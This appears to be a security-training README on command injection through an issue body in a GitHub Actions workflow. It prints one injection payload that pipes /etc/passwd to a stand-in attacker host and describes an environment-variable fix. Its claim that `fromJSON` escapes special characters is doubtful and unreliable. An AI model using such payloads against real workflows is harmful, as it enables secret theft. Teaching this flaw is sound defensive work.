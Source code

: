# Challenge 4: Command Injection from Issue Body

This challenge demonstrates a command injection vulnerability that can occur when using the issue body directly in a `run` step.

## Vulnerability

The `vulnerable.yml` workflow is triggered when a new issue is opened. The `run` step in the `vulnerable_job` directly uses the issue body in a shell command. An attacker can create an issue with a malicious body that includes shell commands. For example, an attacker could create an issue with the body:

```
; curl http://attacker.com/$(cat /etc/passwd | base64)
```

When the workflow runs, the shell will execute the `curl` command, sending the base64-encoded contents of the `/etc/passwd` file to the attacker's server.

## Fix

The `fixed.yml` workflow mitigates this vulnerability by passing the issue body as an environment variable to the script. This ensures that the issue body is treated as a single string and not executed as a command.

## Advanced Mitigation

In addition to using environment variables, you can also use the `fromJSON` function to parse the issue body and escape any special characters. This can provide an extra layer of protection against command injection attacks.
